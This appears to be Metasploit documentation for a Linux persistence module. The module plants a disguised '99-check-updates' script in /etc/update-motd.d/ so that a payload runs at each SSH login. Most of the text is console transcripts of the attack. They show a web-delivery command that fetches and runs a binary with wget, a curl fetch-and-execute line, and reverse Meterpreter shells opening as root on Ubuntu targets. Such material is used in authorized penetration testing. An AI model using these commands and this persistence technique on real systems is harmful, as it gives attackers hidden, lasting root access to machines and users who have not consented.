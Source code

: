 ## Vulnerable Application

This is a post module that performs a persistence installation on a Linux system using [motd](https://manpages.debian.org/bookworm/manpages/motd.5.en.html).
To trigger the persistence execution, an external event such as a user logging in to the system with SSH is required.

## Verification Steps

1. Start msfconsole
2. Obtain a session on the target machine
3. `use exploit/linux/persistence/motd`
4. `set session [session]`
5. `exploit`

## Options

### BACKDOOR_NAME

Specify the name of the file to insert in the motd directory. Defaults to `99-check-updates`

### PAYLOAD_NAME

Name of the payload file if a `cmd` payload is not used. Defaults to a random name

## Scenarios

### Ubuntu 18.04.3

Initial access vector via web delivery

```
[*] Processing /root/.msf4/msfconsole.rc for ERB directives.
resource (/root/.msf4/msfconsole.rc)> setg verbose true
verbose => true
resource (/root/.msf4/msfconsole.rc)> setg lhost 111.111.1.111
lhost => 111.111.1.111
resource (/root/.msf4/msfconsole.rc)> use exploit/multi/script/web_delivery
[*] Using configured payload python/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set srvport 8181
srvport => 8181
resource (/root/.msf4/msfconsole.rc)> set target 7
target => 7
resource (/root/.msf4/msfconsole.rc)> set payload payload/linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
resource (/root/.msf4/msfconsole.rc)> set lport 4545
lport => 4545
resource (/root/.msf4/msfconsole.rc)> set URIPATH l
URIPATH => l
resource (/root/.msf4/msfconsole.rc)> run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
[*] Starting persistent handler(s)...
[*] Started reverse TCP handler on 111.111.1.111:4545 
[*] Using URL: http://111.111.1.111:8181/l
[*] Server started.
[*] Run the following command on the target machine:
wget -qO oQN8BXNV --no-check-certificate http://111.111.1.111:8181/l; chmod +x oQN8BXNV; ./oQN8BXNV& disown
[msf](Jobs:1 Agents:0) exploit(multi/script/web_delivery) > 
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 1 opened (111.111.1.111:4545 -> 222.222.2.222:42870) at 2025-02-07 15:40:34 -0500
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...
(Meterpreter 1)(/tmp) > getuid
Server username: root
(Meterpreter 1)(/tmp) > sysinfo
Computer     : ubuntu18desktop.local
OS           : Ubuntu 18.04 (Linux 5.4.0-150-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
(Meterpreter 1)(/tmp) > background
[*] Backgrounding session 1...
```

Persistence

```
[msf](Jobs:1 Agents:1) exploit(multi/script/web_delivery) > use exploit/linux/persistence/motd 
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > exploit
[-] Msf::OptionValidateError One or more options failed to validate: SESSION.
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > set session 1
session => 1
[msf](Jobs:1 Agents:1) exploit(linux/persistence/motd) > exploit
[*] Command to run on remote host: curl -so ./rpNzsXNVDsZ http://111.111.1.111:8080/Hg3DGEu9GqlWD06kh4AzFg;chmod +x ./rpNzsXNVDsZ;./rpNzsXNVDsZ&
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.
[msf](Jobs:2 Agents:1) exploit(linux/persistence/motd) > 
[*] Fetch handler listening on 111.111.1.111:8080
[*] HTTP server started
[*] Adding resource /Hg3DGEu9GqlWD06kh4AzFg
[*] Started reverse TCP handler on 111.111.1.111:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. /etc/update-motd.d/ is writable
[*] /etc/update-motd.d/99-check-updates written
[+] Payload will be triggered at user login
[*] Meterpreter-compatible Cleaup RC file: /root/.msf4/logs/persistence/ubuntu18desktop.local_20250207.4101/ubuntu18desktop.local_20250207.4101.rc
[*] Client 222.222.2.222 requested /Hg3DGEu9GqlWD06kh4AzFg
[*] Sending payload to 222.222.2.222 (curl/7.58.0)
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 222.222.2.222
[*] Meterpreter session 2 opened (111.111.1.111:4444 -> 222.222.2.222:48696) at 2025-02-07 15:41:26 -0500
[msf](Jobs:2 Agents:2) exploit(linux/persistence/motd) > sessions -i 2
[*] Starting interaction with 2...
(Meterpreter 2)(/) > getuid
Server username: root
```

### Ubuntu 22.04

```
msf6 payload(cmd/linux/http/x64/meterpreter/reverse_tcp) > use exploit/linux/local/motd_persistence
[*] Using configured payload cmd/linux/http/x64/meterpreter/reverse_tcp
msf6 exploit(linux/local/motd_persistence) > set session -1
session => -1
msf6 exploit(linux/local/motd_persistence) > exploit
[*] /etc/update-motd.d/99-check-updates written
msf6 exploit(linux/local/motd_persistence) > 
[*] Sending stage (3045380 bytes) to 172.18.49.39
[*] Meterpreter session 2 opened (172.18.52.45:4444 -> 172.18.49.39:41848) at 2024-09-13 03:59:47 -0400
msf6 exploit(linux/local/motd_persistence) > sessions -i -1
[*] Starting interaction with 2...
meterpreter > getuid
Server username: root
meterpreter > 
```